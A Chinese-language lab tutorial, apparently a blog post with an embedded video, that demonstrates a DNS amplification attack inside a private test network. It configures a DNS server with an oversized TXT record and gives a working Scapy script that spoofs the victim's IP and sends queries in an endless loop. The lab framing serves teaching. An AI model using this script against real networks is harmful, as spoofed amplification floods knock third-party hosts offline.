 <h1>实验环境</h1>
<div>DNS服务器（10.61.1.175）：windows server 2003及自带的DNS服务器；
攻击机（10.61.1.177）：需要Python+scapy环境；
被攻击机（10.61.1.157）：网络连接正常的机器；</div>
<h1>搭建DNS服务器</h1>
<div>如何在win2003环境下搭建DNS服务器，网上教程一大把，自行查找。此处其实是在DNS服务器上创建一个异常（超大）的TXT记录，当黑客查询请求这条记录时，DNS服务器返回这条超长的TXT记录，达到放大攻击流量的效果。
<ul>
	<li>创建一个test.com域；</li>
	<li>在test.com域下新建主机，记录类型为A，记录名称为www，设置IP为10.61.1.175；</li>
	<li>在test.com域下新建资源记录，记录类型为TXT，记录名称为www，设置文件为任意一个字符串，长度尽量大，据说最大是4000字节；</li>
</ul>
</div>

<h1>DNS放大攻击脚本</h1>

	#!/usr/bin/env python
	from scapy.all import *
	a = IP(dst="10.61.1.175",src="10.61.1.157")
	b = UDP(dport=53)
	c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
	c.qd=DNSQR(qname="www.test.com",qtype="TXT",qclass="IN")
	p = a/b/c
	while 1:
		send(p)

<ul>
	<li>由于UDP的无连接性，可以实现反射攻击的目的，在IP层伪造源IP为被攻击机的IP地址10.61.1.157，目的IP就是DNS服务器的IP地址10.61.1.175;</li>
	<li>DNS服务器的服务器端口是53，在UDP层将目的端口设置为53;</li>
	<li>查询域名是www.test.com，查询的类型为TXT，也就是请求查询我们在DNS服务器上恶意设置的TXT记录，实现放大目的。</li>

<iframe src="//player.bilibili.com/player.html?aid=725064817&bvid=BV13S4y1S7u9&cid=558430612&p=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>
